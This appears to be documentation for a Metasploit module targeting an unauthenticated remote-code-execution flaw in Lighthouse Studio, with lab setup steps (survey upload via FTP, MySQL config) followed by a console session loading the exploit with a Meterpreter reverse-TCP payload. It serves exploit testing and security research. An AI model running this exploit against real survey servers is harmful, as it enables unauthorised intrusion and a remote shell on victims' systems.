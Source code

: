 Install Lighthouse Studio using default options.

13. Create and Save a New Study

Use

```
File -> New Study
```

and follow instructions.
In the end save the study.

14. Upload the Study to the Ubuntu VM

To host your survey on the Ubuntu VM:

In the Top Bar -> Click on Hosting

Set the following database configuration:

Database Name: `test`

Database Username: `test`

Database Password: `test`

Database Server: `MySQL`

Set FTP Access

Fill in the FTP settings:

FTP Host: `IP address or hostname of your Ubuntu VM`

Username: `ftpuser`

Password: password for `ftpuser`

In the "Advanced" Tab

Set the Database Server Host Name — enter the IP address of your Ubuntu VM.

15. Upload the Survey to Server

Click the "Upload Survey to Server" button.

If all configurations are correct, Lighthouse Studio will:

- Upload the survey files via FTP
- Initialize the MySQL database
- Generate CGI scripts

OR (in case of any errors)

Use this instruction to upload manually [Manual Upload to Server](https://sawtoothsoftware.com/help/lighthouse-studio/manual/manual-upload.html)

## Scenario

```
msf6 > use exploit/multi/http/lighthouse_studio_unauth_rce_CVE_2025_34300
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/lighthouse_studio_unauth_rce_CVE_2025_34300) > show options

Module options (exploit/multi/http/lighthouse_studio_unauth_rce_CVE_2025_34300):

   Name       Current Setting     Required  Description
   ----       ---------------     --------  -----------
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80                  yes       The target port (TCP)
   SSL        false               no        Negotiate SSL/TLS for outgoing connections
```